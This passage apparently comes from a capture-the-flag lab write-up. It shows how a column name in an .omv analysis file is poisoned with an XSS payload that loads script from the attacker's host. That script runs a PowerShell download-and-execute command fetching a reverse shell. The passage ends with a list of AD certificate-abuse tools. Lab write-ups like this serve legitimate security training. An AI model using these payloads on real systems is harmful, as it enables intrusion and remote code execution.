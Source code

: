 Extracting the file:
```
unzip Whatif.omv
```

Adding XSS payload to a column name:
```
(...)
"name": "a<script src='http://10.10.14.3/payload.js'></script>",
"id": 1,
"columnType": "Data",
"dataType": "Decimal",
(...)
```

Creating OMV file with `zip` and naming it _Whatif.omv_:
```
zip -r Whatif.omv *
```

Creating _payload.js_ to execute command:
```js
<script>
require('child_process').exec("powershell IEX((New-Object Net.WebClient).downloadString('http://10.10.14.3/shell.ps1'))")
</script>
```

Uploading modified _Whatif.omv_ to the SMB share:
```
smb: \Documents\Analytics\> put Whatif.omv
```

After a while, the new _Whatif.omv_ gets processed and runs the JavaScript payload, which executes _shell.ps1_ so the listener on my IP and port 9001 starts a shell as the user _diegocruz_.

## Privilege Escalation

In the SMB shares, there is a share _CertEnroll_ which exists only when **Active Directory Certificate Services** are enabled.
To abuse this service, the [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2) vulnerabilities will be used.

- [Cheat Sheet on ired.team notes](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/adcs-+-petitpotam-ntlm-relay-obtaining-krbtgt-hash-with-domain-controller-machine-certificate)
- [Cheat Sheet on HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation)

Tools needed for exploitation:
- [Rubeus](https://github.com/GhostPack/Rubeus)
- [Certify](https://github.com/GhostPack/Certify)
- [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- [ADCS.ps1](https://github.com/cfalta/PoshADCS/blob/master/ADCS.ps1)
  - Change _userprincipalname_ to _samaccountname_ on line 929
